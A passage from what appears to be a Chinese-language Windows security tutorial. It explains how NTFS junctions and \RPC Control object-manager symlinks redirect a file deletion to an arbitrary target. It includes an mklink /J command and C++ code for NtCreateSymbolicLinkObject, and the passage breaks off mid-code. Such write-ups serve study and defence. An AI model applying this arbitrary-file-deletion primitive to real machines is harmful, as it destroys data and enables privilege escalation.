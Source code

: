 ```php
    return 0; 
}
```

![](https://cdn.nlark.com/yuque/0/2024/png/12719746/1715666961842-46e27f63-95f5-4a2e-b818-432839f40369.png)

OpenFile 函数用于打开文件，其中 0x00000200（即 OF\_DELETE）表示打开文件后立即删除它，因为前文我们说了在创建连接点时被转换的目录中不能带文件。

这个操作等同于使用mklink：

```php
mklink /J C:\Users\root\Desktop\test01\demo\sym_testing\test C:\Users\root\Desktop\test01\demo\sym_testing\target
```

运行结果：

![](https://cdn.nlark.com/yuque/0/2024/png/12719746/1715523069349-d619c0fc-4b98-41e4-9a15-8ddbf1cae528.png)

现在，如果删除`test\config.txt`，实际上`test\config.txt`和`target\config.txt`文件会一起被删除。

对于第二个目标，则难度更高，删除的是不同目录下的不同命文件，等同于任意文件删除。

我们我们需要创建 `dont_delete.txt` 到 `\\RPC Control`对象的符号链接。然后将 `\\RPC Control` 挂载到 `\test\`目录。

需要注意的是：`test`目录应该为空，并且目录需要具有可写权限。

![](https://cdn.nlark.com/yuque/0/2024/png/12719746/1715667691041-a5b823ef-bbce-457b-b152-a2cc885a4141.png)

最终达到的效果是：删除`test\config.txt`文件的操作最终会删除`path\dont_delete.txt`文件。

核心代码为：

```php
HANDLE CreateSymlink(HANDLE root, LPCWSTR linkname, LPCWSTR targetname)
{
    DEFINE_NTDLL(RtlInitUnicodeString);
    DEFINE_NTDLL(NtCreateSymbolicLinkObject);

    OBJECT_ATTRIBUTES objAttr;
    UNICODE_STRING name;
    UNICODE_STRING target;

    fRtlInitUnicodeString(&name, linkname);
    fRtlInitUnicodeString(&target, targetname);

    InitializeObjectAttributes(&objAttr, &name, OBJ_CASE_INSENSITIVE, root, nullptr);

    HANDLE hLink;

    NTSTATUS status = fNtCreateSymbolicLinkObject(&hLink,
    SYMBOLIC_LINK_ALL_ACCESS, &objAttr, &target);
    if (status == 0)
    {
        DebugPrintf("Opened Link %ls -> %ls: %p\n", linkname, targetname, hLink);
        return hLink;
    }
    else
    {
        SetLastError(NtStatusToDosError(status));
        return nullptr;
    }
}

int main(int argc, const char* argv[])
{
    OFSTRUCT openstruct;
    HFILE openhandle;
```